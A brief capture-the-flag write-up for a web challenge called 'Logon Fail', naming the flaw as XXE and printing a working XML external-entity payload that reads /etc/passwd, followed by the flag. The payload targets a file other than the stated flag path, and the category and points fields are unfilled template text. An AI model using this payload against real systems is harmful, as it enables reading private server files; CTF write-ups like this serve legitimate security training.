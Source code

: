# CTF Name – Logon Fail

- **Category:** category
- **Points:** points

## Challenge

> I left my partially written app accessible on the Internet...thats not a problem is it?

> (/var/www/flag)

http://logon-xxfail.seekurity.com.au:3002/

## Solution

Vulnerable to xxe

Payload
```
<!--?xml version="1.0" ?-->
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
 <Request>
  <username>&xxe;</username>
  <password>password</password>
 </Request>
```

```
flag{DTDP@rsing15D@ng3r0u5}
```
